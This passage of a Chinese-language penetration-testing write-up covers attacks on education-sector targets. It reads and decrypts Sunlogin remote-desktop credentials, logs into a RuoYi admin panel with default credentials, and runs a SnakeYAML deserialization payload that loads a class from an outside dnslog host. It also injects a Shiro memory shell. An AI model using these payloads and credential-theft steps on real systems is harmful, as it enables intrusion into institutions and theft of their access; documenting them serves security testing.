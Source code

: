 C:\\Program Files\\Oray\\SunLogin\\SunloginClient\\config.ini为向日葵的默认安装配置文件，直接尝试读取

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666853900835-5ec1b20f-016e-4a6c-a55a-28a74bd74eb3.png)

fastcode将第一位字母去除就为本机识别码，encry\_pwd为加密后的本机验证码

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666853988995-3f33daa3-57ff-4df3-824d-9cc02668ca63.png)

可以使用GitHub解密项目[https://github.com/wafinfo/Sunflower\_get\_Password](https://github.com/wafinfo/Sunflower_get_Password)进行解密。

解密后成功连接目标主机服务器

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666924390310-caacba10-13f3-4314-8551-df3695934fc3.png)

## 5、若依漏洞GetShell

1、某学院首页

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666783594609-b9e91b72-5c7f-4525-99a9-0f7dd6715151.png)

2、/login ，访问后台页面，发现为若依框架，admin/admin@123直接登录后台

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666783656707-9e4caf19-b3bf-4bdf-9b54-6621127d41b9.png)

## 定时任务命令执行

以管理员权限登录在定时任务处新增

org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager \[ !!java.net.URLClassLoader \[\[ !!java.net.URL \["ftp://ceshi.bdtmos.dnslog.cn"\] \]\] \]')运行任务

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666783386928-a952a760-b649-49e5-928e-58bf8be8fde8.png)DNSlog平台收到请求

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666784422042-1fd16b50-a8ab-40a1-8982-29767d0196cd.png)

## shiro 反序列化漏洞

工具直接开扫，成功注入内存马

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666784020286-ef599266-4c4f-4393-a009-f8ec64b31fd7.png)

连接内存马

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666784056566-1b072ea2-0745-489d-9db9-daea47defde0.png)

发现历史入侵痕迹，发现fscan黑客漏扫工具

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666784102977-d2089344-c47b-475d-a856-60c48c7a33d9.png)

## SQL注入
